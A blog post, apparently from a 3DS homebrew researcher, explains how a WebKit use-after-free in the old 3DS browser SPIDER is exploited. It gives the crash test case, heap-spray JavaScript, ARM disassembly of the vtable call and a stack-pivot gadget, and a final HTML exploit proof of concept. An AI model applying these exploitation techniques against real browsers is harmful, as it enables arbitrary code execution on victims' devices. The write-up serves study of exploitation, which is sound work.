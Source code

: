 ```yaml
---
layout: post
title:  "Exploiting the 3DS browsers - Part 2: validityhax"
categories: objects
---
```


## **Intro**

Here it is, the first vulnerability I exploited which affects **SPIDER** (O3DS).
In this post I will go through the process of identifying the vulnerability and getting a rop-chain execution.  
{: style="text-align: justify"}


I might post later about how to get real code execution, but since it's all about abusing GPU's DMA and it's used by all userland exploits I'm sure you can figure it all by yourself.
{: style="text-align: justify"}



## **The crash PoC**

Looking at the several webkit testcases that crashed **SPIDER**, I found this pretty interesting one:
{% highlight html %}
<head>
<script>
function runTest()
{
    var validity = document.getElementById("control").validity;
    document.body.removeChild(document.getElementById("control"));
    validity.valueMissing;
    document.getElementById("result").firstChild.data = "Test has run: If no assertion or crash occurred, it passed.";
}
</script>
</head>

<body onload="runTest()">
<select id="control"></select>
</body>
{% endhighlight %}


You might wonder why this specific test is so interesting... well... among all the nullptr and weird complicated bugs that showed up this one was simple enough to directly understand what was wrong.
{: style="text-align: justify"}

Let's take a look at this, the bug clearly occurs when executing `validity.valueMissing`. It seems it's trying to access something from the variable `validity` which comes from a node deleted just before the bug occurs... clearly a Use-after-Free!
{: style="text-align: justify"}

The bug actually occurs because `valueMissing` is an interface for the `valueMissing` function of the `control` element - which get freed when deleting the node. After deleting the node, the `ValidityState` object associated to the `validity` variable is still allocated and holds a pointer to the freed `control` object, thus leading to a Use-after-Free.  
For more details about this bug you might want to read the [patch changelog](https://trac.webkit.org/changeset/53364/webkit).
{: style="text-align: justify"}



## **Spraying the Heap**

Now that we have a basic understanding of what is going on, we need to re-allocate and write over the memory associated to the freed `control` element. Our goal is to overwrite the `valueMissing` field to get and arbitrary jump.  
{: style="text-align: justify"}

Heap spraying is a common method used for browsers exploitation, we are going to allocate a bunch of javascript objects and hope the freed memory will be re-allocated for our new objects.
To allocate and write arbitrary data on the heap, one can use the `unescape` function to allocate some simple strings.
{: style="text-align: justify"}

Let's try to spray the heap then with this simple example:
{% highlight html %}
<head>
<script>
function gc()
{
  if (window.GCController)
    return GCController.collect();

  for (var i = 0; i < 10000; i++)
  { // > force garbage collection (FF requires about 9K allocations before a collect)
    var s = new String("abc");
  }
}

obj = new Array();
function spray()
{
  for(var i = 0; i < 1200; i++)
  {
    obj[i] = unescape("\u4141\u4141");
  }
}

function boom()
{
  var v = document.getElementById("control").validity;
  document.body.removeChild(document.getElementById("control"));
  gc();
  spray();
  v.valueMissing;
}
</script>
</head>

<body onload="boom()">
<select id="control"></select>
</body>
{% endhighlight %}

First, we force the removed element to be garbage collected so we can re-allocate its memory, then we allocate a bunch of `\u4141\u4141` strings and hope to overwrite what we want... well it won't work.
{: style="text-align: justify"}

The heap is divided into buckets and each bucket has its own block size, so when you allocate on the heap your newly allocated object will be stored in the most appropriate bucket - based on the size you are allocating.  
So if we want to successfully overwrite the `control` element's memory we have to allocate a string whose length is close enough to that of the freed object.
{: style="text-align: justify"}

I was clearly too lazy to find the exact size of the element so I tried a couple of different sizes and finally found that allocating 192 bytes made the browser crash with `r0=0x41414141` :)
{: style="text-align: justify"}



## **Getting an arbitrary jump**

So now it is time to gain control of the execution flow. We already know that calling `v.valueMissing` trigger a virtual method call in the overwritten object, since we control that object we can easily replace the pointer to its vtable.
{: style="text-align: justify"}

Let's take a look at the related assembly code:
{% highlight arm %}
...
ldr r1, [r0]        => here r0 = ptr to the overwritten object so r1 <- object vtable
add r1, r1, #0x284  => just adding the offset of valueMissing in the vtable
ldr r1, [r1]        => r1 <- [vtable+0x284] = valueMissing ptr
blx r1              => call valueMissing
...
{% endhighlight %}

This is great because when branching `r0` still points to the overwritten object and we might be able to load values from there later.  We can get an arbitrary just fairly easily since we can just overwrite the vtable pointer but we still have to find a way to stack pivot from there.
{: style="text-align: justify"}



## **Stack pivoting**

So, I searched for some gadgets and functions in the **SPIDER** binaries in the hope to find something useful to gain control of `sp`.  Fortunately I found the `magic_func`, trust me it is really magic, let's take a look at it:
{: style="text-align: justify"}
{% highlight arm %}
magic_func:
  mov r1, #0x1A0
  add r0, r0, #0x58
  bl  magic_pivot

...

magic_pivot:
  add     r8, r0, #0x2c
  mov     r4, r1
  vldmia  r8!, {d8-d10}
  vldmia  r8!, {d11}
  vldmia  r8!, {d12-d14}
  vldmia  r8!, {d15}
  add     r8, r0, #0x2c
  ldr     r0, [r8, #-4]!
  nop
  ldr     r0, [r8, #-4]!
  mov     sp, r0
  movs    r0, r4
  ldmdb   r8!, {r4-r7}
  moveq   r0, #1
  ldmdb   r8, {r8-r11, lr}
  bx lr
{% endhighlight %}

With this function, one is able to load arbitrary values in `sp` and `lr` from the address pointed by `r0` :).
Thus we know where to jump but still need to setup the fake vtable, do we? Hum let's search for the address of `magic_func` in the binary before... well there is a pointer to this function in the .rodata section :D - let's call this location `MAGIC_FUNC_PTR`.
{: style="text-align: justify"}

Here is the strategy:
* overwrite the vtable pointer and replace it with `MAGIC_FUNC_PTR-0x284`;
* set the appropriate fields of the overwritten object so they will be loaded in `sp` and `lr`;
* call `valueMissing` to trigger the vulnerability.
{: style="text-align: justify"}

Let's simulate it on the associated assembly code:
{% highlight arm %}
...
ldr r1, [r0]        => here r0 = ptr to the overwritten object so r1 <- MAGIC_FUNC_PTR-0x284
add r1, r1, #0x284  => r1 <- r1+0x284 = MAGIC_FUNC_PTR
ldr r1, [r1]        => r1 <- [MAGIC_FUNC_PTR] = address of magic_func
blx r1              => call magic_func :) with r0 = address of overwritten object
...
{% endhighlight %}

This way we directly gain control of the execution flow without spraying additional buffers.
{: style="text-align: justify"}

## **Exploit PoC**

Here is the final exploit PoC:
{% highlight html %}
<head>
<script src="ropdb.js"></script>
<script src="rop_utils.js"></script>
<script src="ropchain.js"></script>

<script>
function make_obj()
{
  var res = "";
  res += u32_to_unicode(MAGIC_FUNC_PTR-0x284);
  // browser will do this func call: *(*(object) + 0x284)()
  // thus it will call MAGIC_FUNC => stack pivot + arb jump
  res += u32_to_unicode_repeat(0xDEADCAFE, 21);
  res += u32_to_unicode(0xDEADCAFE);              // R8
  res += u32_to_unicode(0xDEADCAFE);              // R9
  res += u32_to_unicode(0xDEADCAFE);              // R10
  res += u32_to_unicode(0xDEADCAFE);              // R11
  res += u32_to_unicode(NOP);                     // LR
  res += u32_to_unicode(0xDEADCAFE);              // R4
  res += u32_to_unicode(0xDEADCAFE);              // R5
  res += u32_to_unicode(0xDEADCAFE);              // R6
  res += u32_to_unicode(0xDEADCAFE);              // R7
  res += u32_to_unicode(SLED_STACK);              // SP
  res += u32_to_unicode_repeat(0xDEADCAFE, 16);	  // set obj size = 48*4
  return res;
}
obj_str = make_obj();
function boom()
{
  var v = document.getElementById("s_control").validity;
  document.body.removeChild(document.getElementById("s_control"));
  gc();
  spray(obj_str);
  ropsetup(ropchain);
  v.valueMissing;
}
</script>
</head>

<body onload="boom()">
<select id="s_control"></select>
</body>
{% endhighlight %}

The `u32_to_unicode` function just converts an integer to a unicode string for the `unescape` function, `spray` takes in parameter the string to be allocated - the fake object - and `ropsetup` writes the rop-chain but this part will be detailed in another post.
{: style="text-align: justify"}

## **Conclusion**

Exploiting this vulnerability was quite easy since the bug was quite simple and only required a single jump to successfully gain control of the execution flow.  The next post will be dedicated to the **SKATER** bug which is a bit harder to understand and exploit :)
{: style="text-align: justify"}
